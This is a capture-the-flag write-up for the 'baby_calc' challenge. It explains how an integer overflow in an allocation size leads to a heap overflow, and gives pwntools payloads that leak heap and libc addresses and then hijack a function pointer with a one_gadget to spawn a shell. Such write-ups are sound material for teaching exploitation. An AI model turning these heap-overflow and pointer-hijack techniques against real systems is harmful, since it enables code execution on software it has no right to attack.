

# WannaGame - baby_calc

You can download challenge here: [baby_calc.zip](baby_calc.zip)

There are 3 files in zip:
- baby_calc
- libc.so.6
- ld.so.6

Download and extract and we can get started!

# 1. Find bug

First, let's decompile the file with IDA to get the flow. There are several functions and the first one is main():


The program first take input from user and execute `setup_data()` to copy from input buffer to `new_data`. Then it saves the result, print it out and clean data. Let's see what's inside function `setup_data()`:

Look at the code, we know that variable `new_data` is a structure:


Let's redefine that structure and we have a struct like this:


The function `setup_data()` can be seen easily now:


Notice line 9, the size is multiplied by 8 and use that result to malloc. We know the size is our choice and the max length of size is 4 bytes so if we input size `0x20000000` and that size is multiplied by 8, the result is `0x100000000` (5 bytes in length), but the actual size is `0x0` because first 4 bytes of `0x100000000` is `0x100000000 & 0xffffffff = 0x0` --> **Integer Overflow**. Next, at line 47, if `buffer` is a small chunk but `size` is very large --> **Heap Overflow**.

Let's jump back to `main()`. After executing `setup_data()`, it runs the `new_data->func` with 2 argument `new_data->arg1` and `new_data->arg2` and return the result. It then executes `save_result()`:


The program turns the number into a string and copy it to `result_str` via `snprintf()`. Then it creates new expression object, adds the expression to this object and add to a single linked list `head`. After the that it run `view_result()` and print all the expression in the list out. Finally, it clear data of `new_data` and free the pointer `new_data->buffer`:


One more thing we need to do is to check for all the defences of the binary:

```bash
Canary                        : ✘
NX                            : ✓
PIE                           : ✓
Fortify                       : ✘
RelRO                         : Full
```

Full RelRO and PIE, leaking address will be difficult but we will try.

# 2. Idea

The memory management flow look like below for each round of loop:

```
new_data         = malloc(0x20)
new_data->buffer = malloc(8 * new_data->size)
result_str       = malloc(0x80)
obj              = malloc(0x10)

free(new_data->buffer)
```

With **Heap Overflow**, we can input an expression with `new_data->size * 8 = 0x40` and when it free, the chunk at `new_data->buffer` will go to tcache. If we input the second time with the same `new_data->size * 8 = 0x40`, we can get back the previous `new_data->buffer`, which lays before the chunk of `new_data`, `result_str` and `obj` and we can change the data to leak heap address. The heap looks like following at the first expression:


The chunk `new_data->buffer` then is freed and malloc back again at the secodn expression. The memory look like this:


So with the second read with **Heap Overflow**, we will change from the start of `new_data->buffer` to `obj 1` (overwrite the 8 bytes of size too but stop at the heap address) with byte except null byte and when it print result, printf will not stop until null byte of the heap address in `obj 1` and we get the address of heap leaked.

Next, to leak libc address, we will create a large chunk at `new_data 3` so that when it is freed, it goes to unsorted bin and we will create `new_data 4` with `new_data->size * 8 = 0x40` to get the old `new_data->buffer` chunk to overwrite the `result_str` of `obj 1` into the heap address which contains libc address. Finally, we do the same technique to have `new_data 5` with `new_data->buffer` is the same old chunk and over the `new_data->func` to a function we want to get shell.

Summary:
- Stage 1: Leak heap address
- Stage 2: Leak libc address
- Stage 3: Get shell

# 3. Exploit

### Stage 1: Leak heap address

First, we create a chunk for `new_data->buffer` with size `0x40` and do nothing:

```python
payload = b'+'.ljust(4, b'\0')
payload += p32(0x20000008)       # size
payload += p32(5)                # arg1
payload += p32(6)                # arg2
payload = payload.ljust(0x80, b'A')
p.send(payload)

payload = cyclic(0x8)
p.sendafter(b'feedback:', payload)
p.recvline()
```

Next, let's create the same chunk for `new_data->buffer` with the same size `0x40` and overwrite to byte different from null byte until we meet the first heap address, the program will print the address out and we have heap address leaked:

```python
payload = b'+'.ljust(4, b'\0')
payload += p32(0x20000008)       # size
payload += p32(5)                # arg1
payload += p32(6)                # arg2
payload = payload.ljust(0x80, b'A')
p.send(payload)

payload = flat(
    # new_data->buffer
    b'A'*0x48,

    # result_str
    0xffffffffffffffff,
    b'B'*0x88,

    # obj
    0xffffffffffffffff,
    )
p.sendafter(b'feedback:', payload)
p.recvuntil(b'B'*0x88 + p64(0xffffffffffffffff))
heap_leak = u64(p.recv(6) + b'\0\0')
heap_base = heap_leak - 0x320
log.info("Heap base: " + hex(heap_base))
```


Nice! Let's move on!

### Stage 2: Leak libc address

We will want to create a large chunk, let's say a 0x500-byte chunk:

```python
payload = b'+'.ljust(4, b'\0')
payload += p32(0x200000a0)       # size
payload += p32(5)                # arg1
payload += p32(6)                # arg2
payload = payload.ljust(0x80, b'A')
p.send(payload)

payload = b'A'*0x48
p.sendafter(b'feedback:', payload)
p.recvline()
```

That chunk will then be freed and will be malloc 3 times before data is printed out. Let's say our 0x500-byte chunk now is at address `0x55f9c752d4d0`:


The first malloc is for `new_data`, which is 0x30 bytes (including metadata), the second malloc is for `result_str`, which is 0x90 bytes (including metadata) and the last malloc is for `obj`, which is 0x20 bytes (including metadata). So the address above have to add with these byte to get the chunk has libc after those 3 malloc:

```python3
>>> 0x55f9c752d4d0 + 0x30 + 0x90 + 0x20
0x55f9c752d5b0     # Poiting to metadata

>>> 0x55f9c752d4d0 + 0x30 + 0x90 + 0x20 + 0x10
0x55f9c752d5c0     # Poiting to content of chunk which has libc address
```

The offset from heap base to that heap address `0x55f9c752d5c0` is `0x5c0`. Our goal now is to malloc `new_data->buffer` with the same chunk with the same size `0x40` as above so that we will change the `result_str` of `obj 1` into `heap_base + 0x5c0`:

```python
payload = b'+'.ljust(4, b'\0')
payload += p32(0x20000008)       # size
payload += p32(7)           # arg1
payload += p32(8)           # arg2
payload = payload.ljust(0x80, b'A')
p.send(payload)

payload = flat(
    # new_data->buffer
    b'A'*0x48,

    # result_str
    0x91,
    b'B'*0x88,

    # obj
    0x21,
    heap_base+0x5c0
    )
p.sendafter(b'feedback: ', payload)
libc_leak = u64(p.recv(6) + b'\0\0')
libc.address = libc_leak - 0x219ce0
log.info("Libc base: " + hex(libc.address))
```


Very good! Let's finish our exploitation!

### Stage 3: Get shell

```diff
Always take advantage of executable function in heap!
```

We will want to overwrite the address `new_data->func` to some function to get shell and the fastest way is to use one_gadget. Let's find if we have any useful one_gadget:


The last one seems usable because rdi and rsi is `new_data->arg1` and `new_data->arg2`. Now, we will malloc again the same old chunk for `new_data->func` with size `0x40` and let's check the heap first to see where the next `new_data` is located:



The next `new_data` is at `0x0055f38cf525c0` and our old chunk with size `0x40` is at `0x0055f38cf522d0`:


The program read to `new_data->buffer` and then run the function `new_data->func` immediately so it doesn't use any heap address. Therefore, we just need to overwrite all the data from `new_data->buffer` to next `new_data` with any bytes we want, then set the `new_data->arg1` and `new_data->arg2` to null and set `new_data->func` to one_gadget and we can get the shell:

```python
payload = b'+'.ljust(4, b'\0')
payload += p32(0x20000008)       # size
payload += p32(0)           # arg1
payload += p32(0)           # arg2
payload = payload.ljust(0x80, b'A')
p.send(payload)

payload = flat(
    b'A'*0x2f0,
    0, 0,
    heap_base, libc.sym['one_gadget']
    )
p.sendafter(b'feedback: ', payload)
```

Full script: [solve_1.py](solve_1.py)

Another solution for this chall is attacking tcache_perthread_struct, because it's too long to explain so I just put the script here and you can debug to see: [solve_2.py](solve_2.py)

# 4. Get flag


Flag is `W1{integer_overflow_to_heap_overflow_to_rce}`